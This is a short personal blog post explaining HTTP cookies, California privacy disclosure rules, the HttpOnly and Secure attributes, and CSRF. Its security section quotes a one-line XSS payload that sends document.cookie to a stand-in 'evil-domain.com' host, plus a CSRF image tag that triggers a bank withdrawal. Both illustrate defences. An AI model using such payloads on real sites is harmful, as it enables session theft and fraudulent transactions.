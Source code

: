 ```yaml
---
id: 385
title: Cookies Security
#date: 2018-08-27T17:44:07+00:00
author: Luhao
layout: post
#guid: http://flywithfan.net/?p=385
#permalink: /web/385/
categories:
  - Security
tags:
  - security
  - browser
---
```

Honestly, I was curious about the &#8220;cookie&#8221; promopt all the time but I didn&#8217;t really care about it until I came across the [The California Internet Privacy Bill](https://www.pillsburylaw.com/en/news-and-insights/california-internet-privacy-bill-signed-by-governor.html), then I knew why I often saw these on all kinds of website, but strangely, I have never seen this thing on chinese websites. Maybe we don&#8217;t respect the privacy of others, haha. But it really enlightened me on the thoughts about the privacy and the concerns about the security of cookies.

If any consumers of your web service are located in the state of California, you must:

  * Explain &#8220;how you deal with&#8221; do-not-track requests.
  * Make that information available in a conspicuous way from your homepage. (A text link to a privacy policy will do the trick)

Like this:

![](/assets/img/uploads/2018/cookies-e1535360025494.png)

In case you don&#8217;t know:

An HTTP cookie is a small piece of data that a server sends to the user&#8217;s web browser. The browser may store it and send it back with the next request to the same server.

Cookies are mainly used for three purposes:

  * **Session management**
  
    Logins, shopping carts, game scores, or anything else the server should remember</p> 
  * **Personalization**
  
    User preferences, themes, and other settings

  * **Tracking**
  
    Recording and analyzing user behavior

Cookies are sent with **every** request, so they can worsen performance (especially for mobile data connections). Modern APIs are recommended for client storage via Web storage API (**localStorage** and **sessionStorage**) and **IndexedDB**.

Cookies set:

<pre><code class="">HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
...
</code></pre>

Now, with every new request to the server, all previously stored cookies are sent to the server using the Cookie header.

<pre><code class="">GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
</code></pre>

## Security

**HttpOnly**
  
To prevent cross-site scripting (XSS) attacks, **HttpOnly** cookies are **inaccessible** to JavaScript&#8217;s Document.cookie API. Instead, they are only sent to the server.

An example of exploiting XSS vulnerabilites:

<pre><code class="language-javascript ">(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
</code></pre>

The **HttpOnly** cookie attribute can help by preventing access to cookie value through JavaScript.

**Secure**
  
A secure cookie is only sent to the server with a encrypted request over the **HTTPS** protocol. Even with Secure, sensitive information should never be stored in cookies, as they are inherently insecure and this flag can&#8217;t offer real protection.

So, we are supposed to set cookies like this:

<pre><code class="">Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
</code></pre>

**Cross-site request forgery (CSRF)**

There is an good example of explainning what is CSRF on [Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery).

Someone sent you a malicious link like this,

<pre><code class="">&lt;img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"&gt;
</code></pre>

If you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image!

There are a few techniques that are used to prevent this from happening:

  * input filtering
  * confirmation required for any sensitive action
  * short lifetime of cookies for sensitive actions

For more prevention tips, see the [OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet).

* * *

1.[Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)